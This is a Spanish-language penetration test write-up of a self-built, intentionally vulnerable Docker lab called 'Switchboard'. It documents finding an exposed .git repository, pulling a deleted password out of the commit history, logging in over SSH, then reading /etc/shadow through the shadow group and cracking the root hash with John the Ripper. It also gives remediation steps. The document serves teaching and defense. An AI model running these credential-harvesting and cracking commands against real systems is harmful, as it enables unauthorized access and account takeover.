

# Informe de Prueba de Penetración — Switchboard

|                        |                                                                  |
| ---------------------- | ---------------------------------------------------------------- |
| **ID de informe**      | HO-0015-00                                                       |
| **Objetivo**           | Switchboard (`127.0.0.1`)                                        |
| **Plataforma**         | Laboratorio propio — máquina Docker autocontenida                |
| **Tipo de prueba**     | Caja negra (black box)                                           |
| **Fecha de ejecución** | 2026-10-23                                                       |
| **Autor**              | Francisco Nieto — [@NiettoFrann](https://github.com/NiettoFrann) |
| **Versión**            | 1.0                                                              |
| **Clasificación**      | Público — uso educativo                                          |

> **Aviso legal.** Las pruebas se realizaron sobre un entorno de laboratorio propio,
> deliberadamente vulnerable, desplegado de forma local y aislada mediante Docker. La
> máquina fue construida por el propio autor con fines didácticos. Ninguna técnica descrita
> debe aplicarse sobre sistemas sin autorización expresa por escrito de su propietario.

### Control de versiones

| Versión | Fecha      | Descripción     |
| ------- | ---------- | --------------- |
| 1.0     | 2026-10-23 | Versión inicial |

---

## Índice

1. [Resumen ejecutivo](#1-resumen-ejecutivo)
2. [Alcance y metodología](#2-alcance-y-metodología)
3. [Narrativa del ataque](#3-narrativa-del-ataque)
4. [Hallazgos técnicos](#4-hallazgos-técnicos)
5. [Post-explotación](#5-post-explotación)
6. [Conclusiones](#6-conclusiones)
7. [Anexos](#7-anexos)

---

## 1. Resumen ejecutivo

### 1.1 Objetivo

Evaluar la seguridad del host **Switchboard** simulando un atacante externo sin credenciales
ni conocimiento previo del entorno, con el fin de obtener el máximo nivel de privilegios
posible sobre el sistema.

### 1.2 Resultado

El servidor publicaba un panel web de operaciones que, por un error de despliegue, dejaba
accesible por internet la carpeta de control de versiones del proyecto (`.git/`). Esa carpeta
contiene el **historial completo** del código: al reconstruirlo se recuperó una contraseña
que el equipo creyó haber borrado, pero que seguía viva en un commit anterior. Esa misma
contraseña estaba **reutilizada** para iniciar sesión remota en el servidor como un usuario
normal. Una vez dentro, ese usuario pertenecía a un grupo del sistema que no le correspondía y
que le permitía leer el archivo con las contraseñas de todos los usuarios; recuperada la del
administrador, se obtuvo el **control total** de la máquina. En conjunto, un atacante sin
ninguna credencial inicial pudo apropiarse por completo del servidor partiendo de una carpeta
que nunca debió publicarse.

**Nivel de riesgo global:** `CRÍTICO`

### 1.3 Distribución de hallazgos

| Crítica | Alta | Media | Baja | Informativa |
| :-----: | :--: | :---: | :--: | :---------: |
|    1    |  1   |   0   |  0   |      0      |

### 1.4 Resumen de hallazgos

| ID         | Hallazgo                                                                           | Severidad | CVSS |
| ---------- | ---------------------------------------------------------------------------------- | --------- | ---- |
| HO-0015-01 | Repositorio `.git/` expuesto en el webroot con credencial filtrada en el historial | Crítica   | 9.8  |
| HO-0015-02 | Escalada de privilegios por pertenencia al grupo `shadow`                          | Alta      | 7.8  |

### 1.5 Recomendaciones prioritarias

1. Retirar la carpeta `.git/` del webroot, desactivar el listado de directorio
   (`Options -Indexes`) y **rotar de inmediato la credencial filtrada** (considerarla
   quemada), ya que su exposición en el historial no se corrige con un commit posterior.
2. Retirar al usuario de servicio `operator` del grupo `shadow` (`gpasswd -d operator shadow`)
   y aplicar una contraseña de `root` fuerte, fuera de diccionario.
3. Integrar en el pipeline de despliegue controles que impidan publicar artefactos de control
   de versiones y secretos hacia zonas accesibles por HTTP.

---

## 2. Alcance y metodología

### 2.1 Alcance

| Activo      | Dirección                                     | Incluido |
| ----------- | --------------------------------------------- | :------: |
| Switchboard | `127.0.0.1` — puertos `8082/tcp` y `2224/tcp` |    Sí    |

**Fuera de alcance:** denegación de servicio, infraestructura del host anfitrión y los
servicios de `localhost` ajenos al contenedor (ver nota en [§3.2](#32-reconocimiento)).

### 2.2 Metodología

Prueba basada en **PTES**, apoyada en **OWASP WSTG** para los componentes web:
reconocimiento, enumeración, análisis de vulnerabilidades, explotación, post-explotación y
reporte.

### 2.3 Entorno del auditor

| Componente   | Detalle                                                             |
| ------------ | ------------------------------------------------------------------- |
| Sistema      | Linux (entorno local del auditor)                                   |
| Conexión     | Local (`127.0.0.1`), contra el contenedor Docker del lab            |
| Herramientas | nmap, curl, git-dumper, git, OpenSSH, John the Ripper (rockyou.txt) |

### 2.4 Clasificación de severidad

Las vulnerabilidades se puntúan con **CVSS v3.1**:

| Severidad   | Puntaje  | Criterio                                            |
| ----------- | :------: | --------------------------------------------------- |
| Crítica     | 9.0–10.0 | Compromiso total, remoto y sin autenticación.       |
| Alta        | 7.0–8.9  | Compromiso significativo o escalada de privilegios. |
| Media       | 4.0–6.9  | Impacto limitado o con condiciones previas.         |
| Baja        | 0.1–3.9  | Impacto mínimo.                                     |
| Informativa |   0.0    | Buena práctica, sin impacto directo.                |

---

## 3. Narrativa del ataque

### 3.1 Cadena de compromiso



### 3.2 Reconocimiento

```bash
nmap -p- --min-rate=5000 -T4 -Pn -n -oN puertos.txt 127.0.0.1
nmap -sCV -p2224,8082 -T4 -Pn -n -oN detallado.txt 127.0.0.1
```

Del barrido se identificaron como pertenecientes al objetivo únicamente dos servicios:

| Puerto     | Servicio | Versión                      | Observaciones                                                                 |
| ---------- | -------- | ---------------------------- | ----------------------------------------------------------------------------- |
| `2224/tcp` | SSH      | OpenSSH 9.2p1 (Debian 12)    | Acceso remoto; inútil sin credenciales válidas.                               |
| `8082/tcp` | HTTP     | Apache httpd 2.4.68 (Debian) | Principal superficie de ataque. Título: _Switchboard · Panel de operaciones_. |

El propio script `http-git` de nmap ya delató el hallazgo clave durante el escaneo de
versiones: un **repositorio git accesible** en `8082/tcp`.

```text
| http-git:
|   127.0.0.1:8082/.git/
|     Git repository found!
|_    Last commit message: fix: quitar credenciales del repo
```

> Salida completa en el [Anexo A](#a-salida-completa-de-escaneos).

### 3.3 Enumeración

El banner HTTP se presentaba como un panel de operaciones. La verificación manual confirmó
que la carpeta `.git/` estaba publicada dentro del webroot y era navegable (listado de
directorio activo), exponiendo todo el repositorio:

```bash
curl -s -o /dev/null -w "%{http_code}\n" http://127.0.0.1:8082/.git/HEAD   # 200
curl -s http://127.0.0.1:8082/.git/                                        # listado navegable
```

El mensaje del último commit —_"fix: quitar credenciales del repo"_— era en sí mismo una
invitación: alguien quitó credenciales en un commit reciente, lo que implica que **existieron**
y que muy probablemente siguen vivas en el historial anterior.

### 3.4 Acceso inicial

La reconstrucción del repositorio y la recuperación de la credencial filtrada del historial
de commits —que resultó estar reutilizada como contraseña de SSH— se documentan en
**[HO-0015-01](#ho-0015-01--repositorio-git-expuesto-en-el-webroot-con-credencial-filtrada-en-el-historial)**.

### 3.5 Movimiento lateral

No aplica. Desde la cuenta `operator` se escaló directamente a `root`; no hubo usuarios
intermedios.

### 3.6 Escalada de privilegios

Ya con una shell como `operator`, la enumeración local reveló que el usuario pertenecía al
grupo **`shadow`**, lo que habilitó la lectura de `/etc/shadow` y el crackeo offline del hash
de `root`. El detalle se documenta en
**[HO-0015-02](#ho-0015-02--escalada-de-privilegios-por-pertenencia-al-grupo-shadow)**.

---

## 4. Hallazgos técnicos

### HO-0015-01 — Repositorio `.git/` expuesto en el webroot con credencial filtrada en el historial

|                         |                                                                                                                                                                                                                       |
| ----------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severidad**           | Crítica                                                                                                                                                                                                               |
| **CVSS v3.1**           | 9.8 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`                                                                                                                                                                  |
| **CWE**                 | CWE-527 (exposición del repositorio de control de versiones) · CWE-540 (información sensible en código fuente) · CWE-522 (credenciales insuficientemente protegidas) · CWE-548 (exposición por listado de directorio) |
| **CVE**                 | —                                                                                                                                                                                                                     |
| **Componente afectado** | `http://127.0.0.1:8082/.git/` (Apache httpd 2.4.68)                                                                                                                                                                   |
| **Estado**              | Explotada                                                                                                                                                                                                             |

> **Justificación del vector CVSS.** El acceso es remoto y por red (`AV:N`), sin
> autenticación ni privilegios previos (`PR:N`) ni interacción de la víctima (`UI:N`). La
> complejidad es baja (`AC:L`): el repositorio está publicado, se reconstruye con herramientas
> estándar y el secreto se lee directamente del historial. La credencial recuperada otorga una
> shell interactiva por SSH, con impacto alto en confidencialidad, integridad y disponibilidad
> del contexto comprometido (`C:H/I:H/A:H`). Puntaje resultante: **9.8**.

#### Descripción

El servidor Apache servía la carpeta `.git/` dentro del _webroot_ con el **listado de
directorio (`Options +Indexes`) habilitado**, dejando navegable y descargable el repositorio
completo del proyecto: código, ramas e historial de commits.

Aunque el árbol de trabajo actual estaba "limpio", el historial no lo estaba. Un commit
agregaba un script de despliegue (`deploy.sh`) con credenciales en claro, y un commit
posterior lo "quitaba". Sin embargo, **quitar un archivo en un commit nuevo no borra su
contenido del historial**: el objeto que lo introdujo sigue siendo recuperable. La credencial
expuesta (`operator` / `supe****`) estaba además **reutilizada** como contraseña de la cuenta
de servicio `operator` en SSH.

La causa raíz es una cadena de malas prácticas de despliegue: (a) la carpeta `.git/` terminó
publicada en producción; (b) el `autoindex` de Apache expuso su existencia y facilitó el dump;
(c) un secreto se versionó en el repositorio; (d) el intento de remediación —borrarlo en un
commit posterior— no rotó la credencial ni reescribió el historial; y (e) esa misma
contraseña se reutilizó como credencial de acceso al sistema.

#### Prueba de concepto

1. Se confirma la exposición del repositorio y se reconstruye con `git-dumper` (alternativa:
   mirror recursivo con `wget -r`):

   ```bash
   curl -s -o /dev/null -w "%{http_code}\n" http://127.0.0.1:8082/.git/HEAD   # 200
   git-dumper http://127.0.0.1:8082/.git/ repo
   cd repo
   ```

2. Se revisa el historial de commits; los mensajes orientan directamente al secreto:

   ```bash
   git log --oneline
   # 9d50bb6 fix: quitar credenciales del repo
   # 3c53f25 add: script de despliegue      <-- introduce el secreto
   # e25abc3 init: panel de operaciones
   ```

3. Se inspecciona el commit que agregó el script, recuperando la credencial del _diff_:

   ```bash
   git show 3c53f25
   # +SSH_USER="operator"
   # +SSH_PASS="supe****"
   ```

4. Se usa la credencial recuperada para iniciar sesión por SSH:

   ```bash
   ssh -p 2224 operator@127.0.0.1        # contraseña: supe****

   operator@switchboard:~$ id
   uid=1000(operator) gid=100(users) groups=100(users),42(shadow)
   operator@switchboard:~$ cat ~/user.txt
   0fba93cc****************************
   ```

#### Impacto

- **Confidencialidad:** exposición de todo el código fuente, el historial del proyecto y las
  credenciales que contiene; acceso a los archivos legibles por `operator`, incluida la flag
  `user.txt`.
- **Integridad:** capacidad de modificar y crear archivos en el contexto del usuario tras el
  acceso por SSH.
- **Disponibilidad:** posibilidad de interrumpir o alterar los procesos que ese usuario
  controla.

El hallazgo constituye el **punto de apoyo (foothold)** de toda la cadena: sin ninguna
credencial inicial, un atacante remoto obtiene una shell interactiva en el servidor.

#### Remediación

- **Corto plazo:**
  - Retirar la carpeta `.git/` del _webroot_; el despliegue debe publicar solo los artefactos
    construidos, nunca el repositorio.
  - Desactivar el listado de directorio en Apache: `Options -Indexes` (y, como defensa en
    profundidad, denegar el acceso a `.git` con `<DirectoryMatch "/\.git">` → `Require all denied`).
  - **Rotar inmediatamente la credencial filtrada**; debe considerarse quemada.
- **Largo plazo:**
  - Nunca versionar secretos. Gestionarlos en un _secrets manager_ o variables de entorno del
    CI, como el propio `TODO` del script admitía.
  - Si un secreto ya fue commiteado, además de rotarlo, **reescribir el historial**
    (`git filter-repo` / BFG) para purgar el objeto.
  - No reutilizar contraseñas entre el repositorio y los sistemas de producción.

#### Referencias

- OWASP WSTG — _Review Old Backup and Unreferenced Files for Sensitive Information_ / _Map Application Architecture_.
- CWE-527: _Exposure of Version-Control Repository to an Unauthorized Control Sphere_.
- CWE-540: _Inclusion of Sensitive Information in Source Code_.
- CWE-548: _Exposure of Information Through Directory Listing_.

---

### HO-0015-02 — Escalada de privilegios por pertenencia al grupo `shadow`

|                         |                                                                                                                                                                 |
| ----------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severidad**           | Alta                                                                                                                                                            |
| **CVSS v3.1**           | 7.8 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                                                                                            |
| **CWE**                 | CWE-732 (asignación de permisos incorrecta sobre recurso crítico) · CWE-266 (asignación de privilegios incorrecta) · CWE-521 (requisitos de contraseña débiles) |
| **CVE**                 | —                                                                                                                                                               |
| **Componente afectado** | Usuario `operator` perteneciente al grupo `shadow` → lectura de `/etc/shadow`                                                                                   |
| **Estado**              | Explotada                                                                                                                                                       |

> **Justificación del vector CVSS.** La explotación requiere una sesión local previa
> (`AV:L`, `PR:L`), sin interacción de terceros (`UI:N`) y con complejidad baja (`AC:L`): el
> grupo `shadow` concede lectura directa de `/etc/shadow` y el hash de `root` es de
> diccionario, crackeable de forma fiable. El resultado es una shell `root`, con compromiso
> total de confidencialidad, integridad y disponibilidad (`C:H/I:H/A:H`). Puntaje resultante:
> **7.8**.

#### Descripción

La cuenta de servicio `operator` pertenecía al grupo **`shadow`** (GID 42). Ese grupo no
otorga `root` directo, pero concede un permiso crítico: **lectura de `/etc/shadow`**
(`-rw-r----- root shadow`), el archivo que almacena los hashes de contraseña de todos los
usuarios, incluido `root`. Con el hash en mano, su recuperación depende únicamente de la
fortaleza de la contraseña: en este caso, `root` usaba una contraseña de diccionario
(presente en `rockyou.txt`), por lo que se crackeó offline en segundos y se usó para elevar
privilegios con `su`.

La causa raíz es doble: (a) un **permiso de más** —un usuario de servicio incluido en un grupo
sensible que no le correspondía—, y (b) una **contraseña de `root` débil** que no resistió un
ataque de diccionario una vez expuesto su hash. A diferencia de los vectores por `sudo`, la
pertenencia a `shadow` no aparece en `sudo -l` ni en la búsqueda de binarios SUID, lo que la
hace más silenciosa; se detecta revisando los grupos del usuario (`id`).

#### Prueba de concepto

1. Tras el acceso como `operator`, el comando `id` revela la pertenencia al grupo sensible y
   se confirma el permiso de lectura sobre `/etc/shadow`:

   ```bash
   operator@switchboard:~$ id
   uid=1000(operator) gid=100(users) groups=100(users),42(shadow)
   operator@switchboard:~$ ls -l /etc/shadow
   -rw-r----- 1 root shadow ... /etc/shadow        # el grupo shadow puede leerlo
   ```

2. Se extrae la línea de `root` y se traslada a la máquina del auditor para crackearla offline:

   ```bash
   grep '^root:' /etc/shadow > hash_root.txt
   # root:$6$Qz46Aiip5p9eo1rK$88esfwXq7Y5O...   (sha512crypt, prefijo $6$)
   ```

3. Se ataca el hash `sha512crypt` con John the Ripper y `rockyou.txt`:

   ```bash
   john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash_root.txt
   john --show hash_root.txt
   # root : ilov****
   ```

4. De vuelta en la sesión, se eleva a `root` con la contraseña recuperada:

   ```bash
   operator@switchboard:~$ su root        # contraseña: ilov****
   root@switchboard:/home/operator# id
   uid=0(root) gid=0(root) groups=0(root)
   root@switchboard:/home/operator# cat /root/root.txt
   5461b446****************************
   ```

#### Impacto

Compromiso total del sistema: lectura y escritura de cualquier archivo (incluida la flag
`root.txt`), control de todos los procesos y servicios, y persistencia a discreción del
atacante.

#### Remediación

- **Corto plazo:**
  - Retirar a `operator` del grupo `shadow`: `gpasswd -d operator shadow`.
  - Establecer una contraseña de `root` fuerte y fuera de diccionario (o deshabilitar el login
    directo de `root`).
- **Largo plazo:**
  - Auditar periódicamente la membresía de grupos sensibles (`getent group shadow disk docker lxd adm`);
    los usuarios de servicio deben seguir el principio de mínimo privilegio.
  - Aplicar una política de contraseñas robusta para cuentas privilegiadas, de modo que la
    exposición de un hash no derive en un crackeo trivial.

#### Referencias

- GTFOBins / HackTricks — _Linux Privilege Escalation: `shadow` group_.
- CWE-732: _Incorrect Permission Assignment for Critical Resource_.
- CWE-266: _Incorrect Privilege Assignment_.
- `man 5 shadow` — formato del archivo de contraseñas.

---

## 5. Post-explotación

### 5.1 Acceso obtenido

| Nivel         | Usuario    | Método     | Prueba                      |
| ------------- | ---------- | ---------- | --------------------------- |
| Usuario       | `operator` | HO-0015-01 | `user.txt` — `0fba93cc****` |
| Administrador | `root`     | HO-0015-02 | `root.txt` — `5461b446****` |

```bash
operator@switchboard:~$ cat ~/user.txt
0fba93cc****************************
root@switchboard:/home/operator# cat /root/root.txt
5461b446****************************
```

### 5.2 Información sensible expuesta

| Tipo                      | Ubicación                                    | Observación                                               |
| ------------------------- | -------------------------------------------- | --------------------------------------------------------- |
| Repositorio git completo  | `http://127.0.0.1:8082/.git/`                | Código e historial accesibles sin autenticación.          |
| Credencial en claro       | `deploy.sh` (commit `3c53f25` del historial) | `operator` / `supe****`; reutilizada como contraseña SSH. |
| Hash de contraseña (root) | `/etc/shadow`                                | `sha512crypt` (`$6$`); legible por el grupo `shadow`.     |
| Contraseña de root        | Crackeada offline (`john` + `rockyou`)       | De diccionario (`ilov****`); habilita `su root`.          |

### 5.3 Limpieza

| Artefacto                           | Ubicación             | Estado                                                                  |
| ----------------------------------- | --------------------- | ----------------------------------------------------------------------- |
| Shell de root (`su`)                | Sesión SSH `operator` | Finalizada al cerrar la sesión.                                         |
| Repo dumpeado / hash / salidas nmap | Equipo del auditor    | Conservados como evidencia en `loot/` (entorno de laboratorio aislado). |

---

## 6. Conclusiones

### 6.1 Conclusión técnica

El compromiso total de Switchboard no dependió de ninguna vulnerabilidad de software, sino del
**encadenamiento de malas configuraciones y malas prácticas operativas**. Una carpeta `.git/`
publicada por error, sumada al listado de directorio de Apache, convirtió todo el historial
del proyecto en información pública. Ese historial conservaba una credencial que se creyó
eliminada —el error clásico de "borrar" un secreto con un commit posterior en lugar de rotarlo
y purgar el historial—, y la reutilización de esa contraseña transformó la fuga en una shell
remota. Por último, un usuario de servicio incluido indebidamente en el grupo `shadow`, junto a
una contraseña de `root` de diccionario, cerró la cadena entregando el control total. Cada
eslabón era, por sí solo, corregible con una práctica de _hardening_ básica; su combinación
produjo el compromiso completo.

### 6.2 Aprendizajes del auditor

- **Técnica aplicada:** arqueología de git sobre un `.git/` expuesto (`git-dumper` + lectura
  del historial) y escalada por pertenencia al grupo `shadow`, un vector distinto al clásico
  `sudo`/SUID y que no figura en `sudo -l`.
- **Dónde me trabé y cómo lo resolví:** el árbol de trabajo actual del repo estaba limpio; la
  clave fue leer los mensajes de commit (`git log --oneline`) y seguir la pista del _"quitar
  credenciales"_ hacia el commit anterior con `git show`, en lugar de quedarme en `HEAD`.
- **Qué haría distinto:** incluir desde el reconocimiento una comprobación automática de
  `/.git/HEAD` en el barrido web, y automatizar la enumeración local (p. ej. `linpeas`), que
  habría señalado la pertenencia al grupo `shadow` sin necesidad de revisar `id` a mano.

---

## 7. Anexos

### A. Salida completa de escaneos

<details><summary>nmap — descubrimiento de puertos</summary>

```text
# Nmap 7.992 scan initiated Fri Oct 23 21:22:44 2026 as: nmap -p- --min-rate=5000 -T4 -Pn -n -oN puertos.txt 127.0.0.1
Nmap scan report for 127.0.0.1
Host is up (0.000076s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE
2224/tcp  open  efi-mg
6600/tcp  open  mshvlm
8082/tcp  open  blackice-alerts
33928/tcp open  unknown
39017/tcp open  unknown
```

> Los servicios `6600/tcp`, `33928/tcp` y `39017/tcp` corresponden al equipo local del
> auditor y **no pertenecen al contenedor Switchboard**. El objetivo expone solo `2224/tcp`
> (SSH) y `8082/tcp` (HTTP).

</details>

<details><summary>nmap — detección de servicios y versiones (puertos del objetivo)</summary>

```text
# Nmap 7.992 scan initiated Fri Oct 23 21:23:24 2026 as: nmap -sCV -p2224,8082 -T4 -Pn -n -oN detallado.txt 127.0.0.1
Nmap scan report for 127.0.0.1
Host is up (0.000049s latency).

PORT     STATE SERVICE VERSION
2224/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
| ssh-hostkey:
|   256 9c:a1:b9:56:a8:a3:c4:6f:b7:4a:a6:92:4a:73:08:03 (ECDSA)
|_  256 e7:09:09:4e:75:70:b4:a2:c5:95:04:c4:a9:e2:d5:f5 (ED25519)
8082/tcp open  http    Apache httpd 2.4.68 ((Debian))
| http-git:
|   127.0.0.1:8082/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: fix: quitar credenciales del repo
|_http-title: Switchboard \xC2\xB7 Panel de operaciones
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>

### B. Scripts y exploits

<details><summary>Dump del repositorio y recuperación del secreto (git)</summary>

```bash
git-dumper http://127.0.0.1:8082/.git/ repo     # alternativa: wget -q -r -np -nH http://.../.git/
cd repo
git log --oneline
# 9d50bb6 fix: quitar credenciales del repo
# 3c53f25 add: script de despliegue
# e25abc3 init: panel de operaciones
git show 3c53f25        # deploy.sh -> SSH_USER="operator" / SSH_PASS="supe****"
```

</details>

<details><summary>Crackeo del hash de root (John the Ripper)</summary>

```bash
grep '^root:' /etc/shadow > hash_root.txt        # legible por el grupo shadow
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash_root.txt
john --show hash_root.txt                         # root : ilov****
su root                                            # -> uid=0(root)
```

</details>

### C. Mapeo MITRE ATT&CK

| Táctica              | Técnica                                            | ID        |
| -------------------- | -------------------------------------------------- | --------- |
| Reconnaissance       | Active Scanning                                    | T1595     |
| Discovery            | File and Directory Discovery                       | T1083     |
| Credential Access    | Unsecured Credentials: Credentials In Files        | T1552.001 |
| Initial Access       | Valid Accounts                                     | T1078     |
| Lateral Movement     | Remote Services: SSH                               | T1021.004 |
| Credential Access    | OS Credential Dumping: /etc/passwd and /etc/shadow | T1003.008 |
| Credential Access    | Brute Force: Password Cracking                     | T1110.002 |
| Privilege Escalation | Valid Accounts: Local Accounts                     | T1078.003 |

### D. Referencias generales

- PTES — _Penetration Testing Execution Standard_.
- OWASP WSTG — _Web Security Testing Guide_.
- Calculadora CVSS v3.1 de FIRST — <https://www.first.org/cvss/calculator/3.1>.
- GTFOBins — <https://gtfobins.github.io/>.
- MITRE ATT&CK — <https://attack.mitre.org/>.
